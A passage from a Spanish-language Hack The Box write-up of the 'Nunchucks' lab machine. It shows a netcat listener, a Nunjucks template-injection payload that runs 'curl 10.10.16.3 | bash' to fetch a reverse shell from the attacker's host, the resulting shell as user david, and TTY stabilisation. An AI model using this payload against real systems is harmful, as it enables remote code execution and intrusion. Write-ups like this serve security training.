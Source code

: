 ```bash
python3 -m http.server 80
_______________________________________________________________________
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
---
Nos preparamos para recibir la conexión inversa por el puerto 443 utilizando `netcat`.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```
---
Seguido de esto, desde Burp Suite, enviamos un comando `curl` a la máquina víctima a través de la inyección SSTI para descargar y ejecutar nuestra reverse shell.

```bash
\{\{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.16.3 | bash')\")()\}\}
```

![nunchucks-9](/assets/img/htb/nunchucks/nunchucks-9.png)

---
La conexión se establece con éxito, y ganamos acceso a la máquina como el usuario `david`.

```bash
nc -lvnp 443
listening on [any] 443 ...
_______________________________________________________________________
connect to [10.10.16.3] from nunchucks.htb [10.10.11.122] 35982
david@nunchucks:/var/www/store.nunchucks$ 
```
---
Una vez dentro de la máquina, estabilizamos la TTY para trabajar cómodamente.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 25 columns 127
```
## Escalada de Privilegios
---
Leemos la flag de `user.txt` que se encuentra en el directorio home de `david`.
